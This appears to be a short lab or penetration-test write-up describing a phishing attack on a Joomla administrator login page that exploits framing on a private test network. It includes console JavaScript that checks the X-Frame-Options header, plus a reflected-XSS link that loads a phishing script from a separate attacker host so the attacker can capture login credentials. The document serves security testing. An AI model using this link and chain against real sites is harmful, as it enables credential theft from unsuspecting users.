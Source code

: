 # [Phish] Iframe Login Page

## Test Environment

### Web Browsers (20240224)

* [x] Mozilla Firefox Version 123.0 (64-bit)
* [x] Google Chrome Version 122.0.6261.70 (64-bit)
* [x] Microsoft Edge Version 122.0.2365.52 (64-bit)

## Exploitation Steps

1. [check if target login page iframe-able] navigate to target application in web browser

http://192.168.5.19

2. [check if target login page iframe-able] open developer console and execute following code

```
const url = "http://192.168.5.19/administrator/";
const req = new XMLHttpRequest();
req.open("GET", url, false);
req.send(null);
console.log("Endpoint: " + url + "\nX-Frame-Options (response header): " + req.getResponseHeader("X-Frame-Options"));
```

* **NOTE**: default install value: `SAMEORGIN` (vulnerable)

3. victim user clicks link

```
http://192.168.5.19/test/rxss.php?q=<script src=http://192.168.5.13/phishLoginJoomla.js></script>
```

4. victim user authenticates

*(attacker obtains credentials)*

## Screenshots

![Image](screenshots/Joomla_-_iframe_login_-_1-1.png)
